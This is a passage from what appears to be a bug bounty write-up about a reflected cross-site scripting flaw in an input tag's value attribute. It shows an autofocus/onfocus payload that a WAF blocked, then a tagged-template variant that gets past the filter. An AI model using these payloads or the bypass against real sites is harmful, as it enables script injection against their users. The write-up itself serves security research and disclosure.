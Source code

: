 The answer was

![](/assets/images/2023-12-10-bug-bounty-8/burp-repeater-1.png)

so the payload was reflected in the attribute *value* of an input tag. After this I tried to send the payload

{% include codeHeader.html %}
```html
" autofocus onfocus="alert(1)">
```

but the WAF stopped the request, so I changed it to the payload.

{% include codeHeader.html %}
```html
" autofocus onfocus="[].map.call`${alert}1`">
```

and this was the response

![](/assets/images/2023-12-10-bug-bounty-8/burp-repeater-2.png)
